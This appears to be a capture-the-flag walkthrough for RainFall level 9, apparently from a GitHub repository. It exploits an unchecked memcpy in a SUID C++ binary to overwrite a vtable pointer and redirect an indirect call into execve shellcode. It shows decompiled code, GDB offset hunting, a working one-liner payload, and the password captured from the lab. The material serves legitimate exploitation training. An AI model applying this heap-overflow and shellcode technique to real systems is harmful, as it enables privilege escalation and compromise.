 # Level 9 Walkthrough

> Goal: abuse a heap overflow in a small C++ program to pivot an indirect call toward shellcode we place in a heap buffer, then read the next user’s password.

---

## Context

**Who am I?**

```bash
level9@RainFall:~$ id
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)
```

**Where am I?**

```bash
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9*
```

SUID binary owned by `bonus0`. No output by default; accepts 0–2 args without printing anything visible.

---

## Decompiled View

```c++
class N {
public:
    N(int v) {
        this->vptr  = &VTable;
        this->value = v;
    }

    void setAnnotation(char *s) {
        size_t n = strlen(s);
        memcpy((char*)this + 4, s, n); // dangerous: unchecked copy can overflow into next object
    }

    int operator+(N &o) { return this->value + o.value; }
    int operator-(N &o) { return this->value - o.value; }

    void **vptr;  // vtable pointer at offset 0
    int   value;  // at offset 0x68
};

typedef int (*Fn)(N*, N*);

int main(int ac, char **av) {
    if (ac < 2) exit(1);

    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(av[1]);

    // double deref of vptr, then call with (b, a)
    Fn f = *(Fn*)(*(void**)b);
    return f(b, a);
}
```

Key points:

* `setAnnotation` → uses `memcpy` with **no bounds check**, copies user input into the object’s buffer region.
* Later, `main` performs an **indirect call** through a function pointer table. Our overflow can corrupt fields so this pointer chain eventually leads to **attacker-controlled data**.

---

## High-Level Exploit Strategy

* Place **shellcode** directly into the heap buffer allocated for `N`.
* Arrange the first word of that buffer to be a pointer to the shellcode start.
* Overflow further to overwrite the call target slot (offset 108) with the buffer’s address.
* Execution: indirect call dereferences twice → lands in our shellcode.

---

## Finding the Offset (pattern method)

```gdb
(gdb) run 'Aa0Aa1...'
Program received signal SIGSEGV
(gdb) info registers eax
EAX = 0x41366441
```

Pattern offset tool:

```
Exact match at offset: 108
```

So: after **108 bytes** we overwrite the indirect call slot.

---

## Locating the Heap Buffer

Break after the `setAnnotation` call:

```gdb
(gdb) b N::setAnnotation(char*)
Breakpoint 1 at 0x8048714
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) s
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()
(gdb) x/wx $eax
0x804a00c:	0x41414141
(gdb) x/wx $eax + 4
0x804a010:	0x00000000
```

* Heap buffer for our string at `0x0804a00c`
* First 4 bytes under our control
* Plan: put a pointer to `0x0804a010` there (the shellcode start)

---

## Step 6: Build the exploit payload

**Shellcode (28 bytes)**: execve("/bin//sh") — source: [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)

**Layout**

```
[shell_ptr (4)] [shellcode (28)] [padding (76)] [buf_addr (4)]
```

* `shell_ptr = buf + 4` (pointer to the start of shellcode inside the same heap buffer)
* `buf_addr = buf` (address used to overwrite the indirect call slot at offset 108)

**One‑liner**

```bash
level9@RainFall:~$ ./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*76 + "\x0c\xa0\x04\x08")')
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## **Files in this repository**

* `flag.txt`: file containing the retrieved flag
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)

---

## Conclusion

This level showcases a practical heap‑based control‑flow hijack. Instead of stack tricks, we overflow the annotation region of one object to overwrite the adjacent object’s vtable pointer. By placing shellcode in the same heap buffer and storing a pointer to it at the head of that buffer, the program’s final double‑indirect call is redirected into our code, yielding a shell and the flag.

